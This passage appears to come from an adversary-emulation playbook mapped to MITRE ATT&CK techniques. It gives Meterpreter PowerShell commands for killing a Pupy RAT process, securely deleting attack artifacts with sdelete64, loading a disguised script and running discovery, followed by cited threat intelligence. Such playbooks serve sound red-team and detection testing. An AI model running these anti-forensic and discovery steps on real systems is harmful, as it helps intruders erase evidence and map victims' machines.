 [meterpreter (PowerShell)\*] >

```powershell
if (-Not (Test-Path -Path "C:\Program Files\SysinternalsSuite")) { Move-Item -Path $env:USERPROFILE\Downloads\SysinternalsSuite -Destination "C:\Program Files\SysinternalsSuite" }
```

[meterpreter (PowerShell)\*] > `cd "C:\Program Files\SysinternalsSuite\"`

#### 4.B - Indicator Removal on Host: File Deletion ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/))

Terminate Pupy RAT process:

[meterpreter (PowerShell)\*] > `Get-Process`

[meterpreter (PowerShell)\*] > `Stop-Process -Id <rcs.3aka3.doc PID> -Force`

You may now close Pupy.

From Metasploit:

[meterpreter (PowerShell)\*] > `Gci $env:userprofile\Desktop`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:USERPROFILE\Desktop\?rcs.3aka.doc"`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:APPDATA\Draft.Zip"`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:USERPROFILE\Downloads\SysinternalsSuite.zip"`

Import custom script, readme.ps1:

[meterpreter (PowerShell)\*] > `Move-Item .\readme.txt readme.ps1`

[meterpreter (PowerShell)\*] > `. .\readme.ps1`

#### 4.C - Discovery ([T1016](https://attack.mitre.org/techniques/T1016/), [T1033](https://attack.mitre.org/techniques/T1033/), [T1063](https://attack.mitre.org/versions/v6/techniques/T1063/) / [T1518.001](https://attack.mitre.org/techniques/T1518/001/), [T1069](https://attack.mitre.org/techniques/T1069/), [T1082](https://attack.mitre.org/techniques/T1082/), [T1083](https://attack.mitre.org/techniques/T1083/))

[meterpreter (PowerShell)\*] > `Invoke-Discovery`

### Cited Intelligence

* Open Invitation Contributors: Kaspersky, Microsoft, SentinelOne

* CozyDuke has been instructed to download and execute other executables, which in some cases included common hacking tools such as PSExec ([S0029](https://attack.mitre.org/software/S0029/)). <sup>[1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf) </sup>

* MiniDuke can download and execute new malware and lateral movement tools.<sup> [3](https://securelist.com/the-miniduke-mystery-pdf-0-day-government-spy-assembler-0x29a-micro-backdoor/31112/) </sup>
